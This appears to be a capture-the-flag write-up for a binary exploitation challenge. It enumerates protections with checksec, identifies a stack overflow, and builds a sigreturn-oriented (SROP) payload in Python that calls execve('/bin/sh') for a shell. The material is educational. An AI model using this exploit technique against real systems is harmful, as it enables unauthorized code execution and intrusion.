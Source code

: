 # Enumeration

First of all, we start with a `checksec`:  

```console
pwndbg> checksec
Arch:       amd64
RELRO:      No RELRO
Stack:      No canary found
NX:         NX unknown - GNU_STACK missing
PIE:        No PIE (0x42000)
Stack:      Executable
RWX:        Has RWX segments
Stripped:   No
```

As we can see, we can do something there!

The program has no interface, so we head into the disassembly right away.

### Disassembly

Starting with `_start()`:

![image](https://github.com/user-attachments/assets/38bc394c-4df5-4510-98a1-821a9ac64cb2)

![image](https://github.com/user-attachments/assets/f1b71c35-c417-4886-8d7d-c9c2c2ab5d9a)

That's the whole binary, we see there is a huge buffer overflow that `rdx` reads up to `0x106 = 262` bytes. First of all, we need to find a possible gadget and `/bin/sh` address.

![image](https://github.com/user-attachments/assets/618d8c46-cbd1-4c37-987e-bf7fc383a72f)


Now that we have this, we can craft the `SROP` chain.
We want to execute system("/bin/sh") but in assembly language it is execve("/bin/sh", argument, env ) function.
![image](https://github.com/user-attachments/assets/b9f3ec88-7915-49f1-88b1-25aac79cd63e)

```python
# Srop
POP_RAX =0x0043018
SYSCALL_RET=0x043015
BINSH = 0x43238
```

After crafting the `frame`, we send the payload to trigger the vulnerability and get shell.

```python
payload = b'a'*0x8  # 8 bytes override for save rbp
payload += p64(POP_RAX)
payload += p64(0xf)  # syscall number for rt_sigreturn(), search for linux syscall table
payload += p64(SYSCALL_RET)

frame = SigreturnFrame()
frame.rax = 0x3b           # syscall number for execve() function, u can search linux syscall table
frame.rdi = BINSH          
frame.rsi = 0x0             
frame.rdx = 0x0 
frame.rip = SYSCALL_RET   

payload += bytes(frame)
```

Running solver remotely at IP port

### Result


![image](https://github.com/user-attachments/assets/1cfc6b67-e5b1-42c0-8116-027ec9c7467d)

